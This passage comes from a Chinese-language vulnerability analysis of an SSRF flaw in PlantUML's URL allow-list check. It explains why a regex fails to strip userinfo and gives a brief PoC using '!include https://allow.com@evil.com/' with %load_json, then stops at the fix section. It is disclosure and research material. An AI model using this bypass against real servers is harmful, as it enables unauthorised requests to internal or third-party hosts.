  首先会调用cleanPath对请求目标进行规范化处理，除了调用removeUserInfoFromUrlPath方法以外，还会去掉请求目标多余的空格并统一成小写，同时还会剔除掉`:80`和`:443`多余的内容：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-e7201b1f68bd172ee1e38fc446610925eab14a70.png)

 在removeUserInfoFromUrlPath方法中,主要是通过正则匹配的方式，去除掉删除 URL 中包含用户名和密码（如果存在）的userinfo部分：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-8553e8619e19bcbaaf7cde0ec63ba89866a45920.png)

 处理完后，以同样的方式处理allow列表的url，若full是以allow的url开头的话，则检查通过，允许进行请求。从逻辑上来看，这个流程是没有问题的，考虑了对用户输入的规范性处理，也进行了安全检查，那到底是什么地方出了问题导致了ssrf风险呢？

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-04d6b39f9073dfe589a230dc2296b2df9ba7a2a8.png)

 问题主要出现在判断URL 中是否包含用户名和密码（如果存在）的userinfo部分的正则表达式中：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-2a8a2b72bb0abf0c48569edead5b2275b26753f4.png)

 这个正则表达式主要用于匹配URL中的三个部分：

- `^https?://`用于匹配URL中的协议（http&amp;https）和 "://" 部分
- `([-_0-9a-zA-Z]+@)`匹配URL中可能包含的用户名和 "@" 符号。该用户名由下划线、数字、字母（大小写均可）和减号组成。
- `([^@]*)`表示匹配一个不包含 "@" 符号的任意字符的序列（零个或多个）。这一部分用于匹配 "@" 符号后的域名部分，不包括 "@" 符号本身。

 举例来说，匹配的URL可能是类似于 `https://user@example.com` 这样的形式，其中 `user` 是用户名。

 事实上，**该正则表达式无法执行其预期功能**，因为 URL 中用户信息的格式为`<username>:<password>@<host>`但是正则表达式并不包含`:`。并且`@`也可以位于 URL 的其他部分，例如路径、查询。

 最关键的是，正则表达式中并没有对`.`进行匹配，也就是说类似`https://plantuml.com@evil.com`的请求并不会被去掉userInfo信息。根据前面的分析：

1. 如果用户白名单配置为 <https://allow.com> 会存在绕过风险：[https://allow.com@evil.com/](https://evil.com/)
2. 如果用户白名单配置为 <https://allow.com/> 就不会绕过该限制，因为在判断是否是allow是通过startsWith进行判断的，<https://allow.com/> 经过处理后会以`/`结尾，allow.com@127.0.0.1明显不是以allow.com/ 开头，所以没办法绕过对应的限制。

 前面提到!include加载了对应的URI并且返回了部分内容，可能是因为被加载的内容是不合法的PlantUML语法，所以并没有返回全部内容，查阅相关资料https://huntr.com/bounties/8ac3316f-431c-468d-87e4-3dafff2ecf51/ ,发现可以通过%load\_json调用来加载更多的内容：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-3200d9621dee88676204297754f28183639bd6d1.png)

 这里同样以请求https://forum.butian.net/ 为例，可以看到相比之前确实返回了更多的内容：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-9f520663470b6a1e1833a72522a990fe4ef700f9.png)

 综上，可以得到对应的poc为：

```Java
@startuml
!include https://allow.com@evil.com/
a -> b: %load_json()
@enduml
```

1.3 漏洞修复
--------

 通过对比修复方式可以知道：
